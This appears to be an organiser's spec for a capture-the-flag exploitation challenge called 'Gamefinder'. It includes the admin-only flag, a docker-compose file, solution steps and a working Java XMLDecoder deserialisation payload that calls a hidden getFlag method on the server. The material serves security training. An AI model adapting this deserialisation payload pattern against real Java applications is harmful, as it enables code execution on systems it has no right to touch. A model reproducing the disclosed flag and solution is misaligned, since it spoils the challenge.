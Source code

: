 
| metadata | </> |
|--- | --- |
| Developer Name(s) | Jorel |
| Best Contact Slack handle / Email address | jorel.paddick@cybercx.com.au |
| Challenge Category | Exploitation |
| Challenge Tier | 3 |
| Challenge Type | Container |

| Player facing | <> |
|--- | --- |
|Challenge Name | Gamefinder |
|Challenge Description | A new application has been developed to help user's get cheap prices on video games, development was done pretty quickly, and security wasn't a priority. http://exploit-3 | 
|Challenge Hint 1 | A decompiler would be helpful to find winning function |
|Challenge Hint 2 | Check the file the program saves. The critical vulnerability is in the OWASP top 10. |

| Admin Facing | <> |
|--- | --- |
|Challenge Flag| WACTF{UR_L1br@ry_Waz_2_P0w3rful} |
|Challenge Vuln| Insecure Java XML Deserialisation | 
|Docker Usage Idle| 0.3% CPU / 5.5MB RAM |
|Docker Usage Expected Peak| 3% CPU / 8MB RAM |
---

# docker-compose.yml

```yml
version: '3'
services:

  exp-3:
    container_name: exp-3
    build: ./exp-3/
    image: registry.capture.tf:5000/wactf0x04/exp-3
    ports:
      - 8484:80
    deploy:
      resources:
        limits:
          cpus: '0.10'
          memory: 180M
        reservations:
          cpus: '0.05'
          memory: 10M
    cap_drop:
      - NET_RAW
```

# Challenge PoC.py

1. Players will connect to the server side web application. 
2. Player will download the offline desktop java application
3. Player will run the java application and notice the file saving is deserialisation
4. players will decompile the offline java app to find the vulnerable getFlag function
5. Players will write the following XML payload, based on the saved file, to call the getFlag function from the server-side. 
6. Players will upload the file and win.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_265" class="java.beans.XMLDecoder">
 <object class="model.Library" id="Library0">
  <void property="games">
   <void method="add">
    <object class="controller.LibraryAnalyser">
     <void method="getFlag">
     </void>
    </object>
   </void>
  </void>
  <void property="name">
   <string>test</string>
  </void>
 </object>
</java>
```

